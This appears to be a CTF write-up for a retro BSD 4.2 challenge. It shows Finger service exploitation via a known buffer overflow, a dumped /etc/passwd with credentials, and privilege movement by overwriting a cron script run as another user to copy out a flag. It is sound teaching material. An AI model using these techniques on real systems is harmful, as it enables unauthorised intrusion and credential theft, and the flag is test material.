

# Back in 1986 - User

## Description

tcp://tasks.yauzactf.com:79

Falling asleep on a strange bus in summer, young CTF lover Vasya wakes up in 1986... without money and documents, but with the valuable information about the future and the Kali Linux VM on his laptop. Now he works for KGB and his task is to hack into networks of ""Strategic Defense Initiative Organization"" and ultimately change the history of the USSR. Can he deal with old UNIX systems possessing all the knowledge of modern Linux security and binary exploitation?

## Solution

### Foothold

We're only given port 79. With some initial testing, we can confirm that this is the Finger service.

There are a lot of old exploits for this service, and based on the challenge description, this instance is probably vulnerable to one of those old exploits. Furthermore, the name of the root user is "Charlie Root", which is only seen in BSD 4.2, which is the version vulnerable to a [remote buffer overflow](https://www.exploit-db.com/exploits/19039).

```text
➜  ~ finger root@tasks.yauzactf.com
[tasks.yauzactf.com]
Login name: root      			In real life: Charlie Root
Directory: /                        	Shell: /bin/csh
Never logged in.
No Plan.
```

Luckily, there is a Metasploit module for this exploit, which was used by the Morris Worm back in the 1980s.



### Sam User

Once we're in, we notice under `/usr/guest` that there are three users: `sam`, `mckusick` and `karels` \(user directories used to be in `/usr` before the `/home` directory was used\). We could dump the `/etc/passwd` file and crack the hashes \(password shadowing was not yet a thing on BSD 4.2\):

```text
root:NO PASSWORD:0:10:Charlie &:/:/bin/csh
toor:NO PASSWORD:0:10:Bourne-again Superuser:/:
operator:NO PASSWORD:2:28:System &:/usr/guest/operator:/bin/csh
uucp:NO PASSWORD:66:1:UNIX-to-UNIX Copy:/usr/spool/uucppublic:/usr/lib/uucp/uucico
sam:raygun:7:10:& Leffler:/usr/guest/sam:/bin/csh
wnj:wnj12345:8:10:Bill Joy:/usr/guest/wnj:/bin/csh
mckusick:foobar:201:10:Kirk &:/usr/guest/mckusick:/bin/csh
dmr:dmac1:10:31:Dennis Ritchie:/usr/guest/dmr:
shannon:hacker:12:31:Bill &:/usr/guest/shannon:/bin/csh
peter:...hello:13:31:peter b. kessler:/usr/guest/peter:/bin/csh
ralph:whocares:16:31:& Campbell:/usr/guest/ralph:/bin/csh
eric:ithildin:22:31:& Allman:/usr/guest/eric:/usr/new/csh
ghg:biteme:32:31:George Goble:/usr/guest/ghg:/bin/csh
miriam:lancelot:36:10:& Amos:/usr/guest/miriam:/bin/csh
kjd:heartbre:37:10:Kevin Dunlap:/usr/guest/kjd:/bin/csh
tef:fatcat:39:31:Thomas Ferrin:/usr/guest/tef:/bin/csh
van:noexit:40:31:& Jacobson:/usr/guest/van:/bin/csh
rich:fun:41:31:& Hyde:/usr/guest/rich:/bin/csh
jim:haring:42:10:& McKie:/usr/guest/jim:/bin/csh
falcon:joshua:32766:31:Prof. Steven &:/usr/games:/usr/games/wargames
```

Using the `sam:raygun` credentials, we can `su` to the `sam` user.

### Karels User

If we look at the `crontab.local` file, we see that a Cron job is run as the `karels` user every minute.

```text
cat /usr/lib/crontab.local
* * * * * karels /usr/guest/sam/cronwatch.sh
```

The `cronwatch.sh` file is in the `sam` user's directory, so we can control the commands that are run.

```text
echo "cp /usr/guest/karels/user_flag.txt /tmp; chmod a=r /tmp/user_flag.txt" > cronwatch.sh
```

After a minute, we are able to read the `user_flag.txt` file.

```text
cat /tmp/user_flag.txt
YauzaCTF{l1k3_gh0st_1n_th3_w1r3s}
```

